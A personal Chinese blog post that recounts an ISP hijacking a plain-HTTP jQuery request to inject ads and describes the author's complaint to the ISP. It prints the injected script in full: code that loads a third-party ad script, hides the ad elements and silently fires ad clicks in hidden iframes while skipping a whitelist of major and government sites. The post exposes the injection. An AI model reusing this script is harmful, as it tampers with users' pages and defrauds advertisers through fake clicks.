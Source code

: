 ```yaml
---
title: 蛋疼的HTTP劫持
categories:
  - study
  - web
date: 2016-06-16 20:20:52
tags:
---
```

呼呼～终于做完了。易迅这 Demo 7页搞完也真是不容易，每天都是 DIV-DIV 真是够了。HTML 结构和 CSS 反正是折腾完了，补了显眼部分的动效。后端部分偷懒没模拟,做的很粗糙，细节部分慢慢补吧。

 [HTML-仿易迅商城整站](/demo/demos/HTML-仿易迅商城整站/)

<!--more-->

做完感觉 CSS 还是太乱，除了显眼的头尾、及个别窗体，重用部分还是不够。主要是写结构的时候没全局的感觉，不能一眼看完效果图就知道哪哪哪可重用，然后为后面 Class 埋伏笔。我现在对 CSS 的感觉就像小学生写字，一笔一画往下写，虽然能写完但不漂亮，是不是该找个 CSS 框架。短期来看还是站巨人肩头长得高。	SCSS 好像不错。

还要喷下铁通，尼玛我本地写代码都有广告……我只引用了百度的 JQUERY 库而已。例如我写个空白 HTML ,仅引入百度 Jquery 。

```vbscript-html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Document</title>
</head>
<body>
     <script src="http://apps.bdimg.com/libs/jquery/2.1.4/jquery.min.js"></script>
</body>
</html>
```

后然……

![Jquer劫持](./jc1.jpg)

![Jquer劫持](./jc2.jpg)

可以明显看到 Jquery 被HTTP劫持 302 跳转到移动服务器，然后一大波 JS ，DOM 中 IFRAME 引入了广告。

其中有个 JS 拆开很有意思：
>http://g.gclick.cn/static/dice-pc.js

````javascript
! function () {
    var b, c, d, e, f, g, h, i, j, k, l, m, n, o, p, a = "dice-pc";
    if (window._GRD && window._GRD.triggerStats && window._GRD.triggerStats(a), !Math.DICE) {
        if (Math.DICE = !0, b = /baidu.com|taobao.com|qq.com|360.cn|sogou.com|www.apple.com|cntv.cn|1360.com|hao123.com|12306.cn|icbc.com.cn|duba.com|10086.cn|google.com.hk|google.com|bing.com|chinaz.com|duba.net|gdltax.gov.cn|alibaba.com|qihoo.com|xiaomi.com|google.cn|bjjtgl.gov.cn|moe.edu.cn|moe.gov.cn|www.mof.gov.cn|www.mohurd.gov.cn|cq.gov.cn|www.sipo.gov.cn|www.sda.gov.cn|jl.gov.cn|www.sdpc.gov.cn|www.saic.gov.cn|www.beijing.gov.cn|www.customs.gov.cn|hainan.gov.cn|jiangxi.gov.cn|www.fmprc.gov.cn|www.mohrss.gov.cn|www.aqsiq.gov.cn|bjjtgl.gov.cn|www.cbrc.gov.cn|mofcom.gov.cn|www.szaic.gov.cn|www.mod.gov.cn|www.sc.gov.cn|www.csrc.gov.cn|www.forestry.gov.cn|e21.cn|www.nmg.gov.cn|www.fujian.gov.cn|www.shanxigov.cn|www.shaanxi.gov.cn|ccn.mofcom.gov.cn|taiwan.net.tw|www.jiangsu.gov.cn|www.gd.gov.cn|www.gansu.gov.cn|www.hunan.gov.cn|www.qh.gov.cn|jxedu.gov.cn|www.hlj.gov.cn|www.hebei.gov.cn|www.gzgov.gov.cn|www.chengdu.gov.cn|bjrbj.gov.cn|www.nx.gov.cn|yw.gov.cn|haaic.gov.cn|gxeea.cn|sbj.saic.gov.cn|cnnic.cn|jxhld.gov.cn|court.gov.cn|www.chinagrain.gov.cn|cas.cn|changzhi.gov.cn|ly.gov.cn|huzhou.gov.cn|www.shandong.gov.cn|www.changsha.gov.cn|www.fuzhou.gov.cn|www.wenzhou.gov.cn|www.mlnews.gov.cn|www.xm.gov.cn|foshan.gov.cn|www.mas.gov.cn|ahxf.gov.cn|npc.gov.cn|hongze.gov.cn|linfen.gov.cn|www.changde.gov.cn|yn.gov.cn|qyxy.baic.gov.cn|xf.gov.cn|www.xiangxiang.gov.cn|hebwst.gov.cn|dg.gov.cn|www.zhenjiang.gov.cn|smesd.gov.cn|l.gov.cn|www.bjchy.gov.cn|maoming.gov.cn|linyi.gov.cn|moc.gov.cn|gwytb.gov.cn|www.huangshan.gov.cn|ccgp.gov.cn|mps.gov.cn|www.pingliang.gov.cn|henan.gov.cn|www.taizhou.gov.com/, c = "01b1f6566fbc77663f16", d = "2d724824dd45d5c89b25", e = 0, f = function (a) {
                window.DICELOGS = window.DICELOGS || [], window.DICELOGS.push(a)
            }, location.hostname.match(b)) return f("* Good boy.");
        g = function () {
            e > 1 || (e++, function () {
                var a;
                return document.body ? (a = document.createElement("script"), a.type = "text/javascript", a.text = '_guanggao_pub= "' + c + '";', a.text += '_guanggao_slot= "' + d + '";', document.body.insertBefore(a, document.body.children.item(0)), a = document.createElement("script"), a.src = "http://ssp.thescenseproject.com/js/01b1f6566fbc77663f16", a.type = "text/javascript", document.body.insertBefore(a, document.body.children.item(0)), void 0) : setTimeout(arguments.callee, 50)
            }())
        }, h = function (a, b) {
            return Math.random() * (Math.max(a, b) - Math.min(a, b)) + Math.min(a, b)
        }, i = function () {
            return h(1, 50)
        }, j = function (a) {
            var b = 0
                , c = 0
                , d = .0125 * a + .375;
            return a > 10 && Math.random() < d ? (c = h(2, 10), b = c * h(1, 5 / c)) : b = a, b
        }, k = /http:\/\/ssp\.thescenseproject\.com\/clk2\.html\?q\=[0-9a-zA-Z]+/g, l = !1, m = 0, n = function (b) {
            var d, e, g, c = .02;
            return f("* Click rate: <" + c + ">."), Math.random() > c ? f("* Click ignore.") : (d = document.createElement("iframe"), e = 1e3 * j(i()), g = function () {
                document.body.appendChild(d), window._GRD && window._GRD.triggerEventStats && window._GRD.triggerEventStats(a, "click")
            }, d.style.display = "none", d.setAttribute("src", b), setTimeout(g, e), f("* Clicked."), void 0)
        }, document.body._insertBefore = document.body.insertBefore, document.body.insertBefore = function (a, b) {
            return "DIV" === a.tagName && 0 === a.id.indexOf(c + "_" + d) && (a.style.height = "0px", a.style.visibility = "hidden"), document.body._insertBefore(a, b)
        }, o = 0, p = setInterval(function () {
            var b, c, e, h, i, j;
            if (!h) {
                if (o >= 5) return o = 0, void 0;
                for (0 === o && (f("* Call origin script."), g()), o++, b = document.getElementsByTagName("iframe"), i = b.length; i--;)
                    if (e = b[i].attributes, iframeParent = b[i].parentNode, iframeParent && iframeParent.id && iframeParent.id.indexOf(d) > 0)
                        for (j = e.length; j--;) "data-srcdoc" === e[j].nodeName && (f("* Dice click url found."), c = b[i], h = (e[j].value || e[j].nodeValue || e[j].textContent).toString());
                try {
                    l = h ? h.match(k) : [], m = l.length
                } catch (q) {}
                m && (clearInterval(p), l = l[parseInt(Math.random() * m)], n(l), c.parentNode.style.display = "none", window._GRD && window._GRD.triggerEventStats && window._GRD.triggerEventStats(a, "view"))
            }
        }, 500)
    }
}();
````


第三行可以很明显看到有113条白名单，刨去85个 GOV 域名的 government 。
>/baidu.com | taobao.com | qq.com | 360.cn | sogou.com | www.apple.com | cntv.cn | 1360.com | hao123.com | 12306.cn | icbc.com.cn | duba.com | 10086.cn | google.com.hk | google.com | bing.com | chinaz.com | duba.net | alibaba.com | qihoo.com | xiaomi.com | google.cn | moe.edu.cn | 

再联合到之前的新闻，果然会哭的孩子有奶吃。
> [腾讯、小米、360 等 “六国联军” 结盟抵制 “流量劫持”](http://www.huxiu.com/article/135293/1.html)

其实当年的铁通还可以，直到去年中期，不知道是不是和移动合并的缘故，开始封UDP、PPTP端口、插广告，微信随便打开链接直接跳转到 “添加营销号” 页。这样劫持你敢信……而且网络也各种NAT，虽然给的是公网 IP，但是本地的电信都不能互访。还要绕海外的 VPS 来访问自家的路由也是醉了。

打电话举报，尼玛10050的铁通电话被告知与移动合并，又转去10086.（其实我很好奇联通打10086要扣费不?）果然跟客服妹纸扯不清，只让她记录上报。第二天一早还没起床，铁通运维的就来了，满口自信说铁通不可能劫持，一定是我电脑的问题。来了俩，当场演示，虽然他们不懂，但是我把白名单列出，里面有 10086.cn 这总看得懂吧。又一通电话召唤了个"懂技术”的，依然是坑，满口不在乎，看完演示直接走了，边走边说没劫持是不可能的……让拍了照继续上报。

我也知道这劫持肯定不是本地ISP就能解决的，一是没这么大权限，二是运维的一般也不懂。果然下午铁通机房的打电话来了，当然也是运维的，我说的 HTTP 劫持也不甚了解。只说明了不是他们本地劫持的，只能帮我往上报，至于能不能解决他们也没有办法，希望我能理解。然后让我提交一些图片证明。我本是加他 QQ 然后远程桌面演示的，结果巧的是劫持这时候没有了……我踩那位 “劫持者” 也是高层了，应该有监控后台工单，看到有投诉就默默取消了，反而下面不知道。不过仅仅是百度的劫持没有了，京东百度等返利的还在。但是那些证据就不好抓了，至少没有广告这个这么明显。只得作罢。走后过了会儿，运维的打电话来表示希望我能先结束工单，超期了他要扣钱，不过这个会继续往上面报。想想就同意了，毕竟也不是他们的锅。再后来就是移动以及本地的客服回访了，监督倒是不少，可不能解决问题有什么用呢……

这 3～4 天来看，百度 CDN 库的劫持倒是没有了，其他还在，想想还是算了，大不了明年换电信了，要不是看在这外网质量高早就不忍了，现在和我 VPS 不管早晚高峰稳定50ms。速度能跑满我多拨的 100M ～相反电信却一直找不到合适的线路，HK + CN2 + 大水管 符合的几乎都是天价，流量都是1R/G。这哪买得起……而且电信晚上那出口带宽，真是堪忧。

唉，蛋疼的网络……